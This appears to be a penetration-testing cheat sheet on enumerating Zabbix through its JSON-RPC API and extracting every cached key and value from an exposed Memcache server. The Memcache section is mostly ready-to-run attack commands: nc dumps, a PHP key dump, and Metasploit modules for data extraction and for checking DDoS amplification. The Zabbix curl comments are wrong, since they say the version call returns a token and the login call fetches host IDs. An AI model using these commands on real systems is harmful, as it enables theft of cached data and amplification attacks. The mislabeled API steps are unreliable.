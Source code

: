 Check if a website is running on `http://$IP/zabbix`

(Authenticated) Grabbing HostID via JSON-RPC
```bash
# An authorization tokem must be obtained
curl -X POST -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0","method":"apiinfo.version","id":1,"auth":null,"params":{}}' --url http://$IP/zabbix/api_jsonrpc.php 

# This will return a token "result" e.g

# With the authorization token, the following command can be run to fetch the HostIDs
curl -i -X POST -H 'Content-type:application/json' -d '{"jsonrpc":"2.0","method":"user.login","params":{"user":"<USERNAME>","password":"<PASSWORD>"},"auth":null,"id":0}' --url http://$IP/zabbix/api_jsonrpc.php
```

(Authenticated) Grabbing HostID via Python Script
```python
from pyzabbix import ZabbixAPI

zapi = ZabbixAPI("http://10.10.10.108/zabbix")
zapi.login("<USERNAME>", "<PASSWORD>")
print("Connected to Zabbix API Version %s" % zapi.api_version())
for h in zapi.host.get(output="extend"):
    print(h['hostid'])
```

References:
* https://www.zabbix.com/documentation/3.0/manual/api/reference/host/get

### Port 11211 - Memcache

To ex-filtrate all the information saved inside a memcache instance you need to:
* 1  Find slabs with active items
* 2  Get the key names of the slabs detected before
* 3  Ex-filtrate the saved data by getting the key names

```bash
echo "version" | nc -vn $IP 11211      #Get version
echo "stats" | nc -vn $IP 11211        #Get status
echo "stats slabs" | nc -vn $IP 11211  #Get slabs
echo "stats items" | nc -vn $IP 11211  #Get items of slabs with info
echo "stats cachedump <number> 0" | nc -vn $IP 11211  #Get key names
echo "get <item_name>" | nc -vn $IP 11211  #Get saved info

#This php will just dumo the keys, you need to use "get <item_name> later"
sudo apt-get install php-memcached
php -r '$c = new Memcached(); $c->addServer("localhost", 11211); var_dump( $c->getAllKeys() );'

# auto mode ;)
nmap -n -sV --script memcached-info -p 11211 $IP   #Just gather info
msf > use auxiliary/gather/memcached_extractor      #Extracts saved data
msf > use auxiliary/scanner/memcached/memcached_amp #Check is UDP DDoS amplification attack is possible

#Memcstat
sudo apt install libmemcached-tools
memcstat --servers=$IP

# Nmap
nmap -n -sV --script memcached-info -p 11211 $IP
```

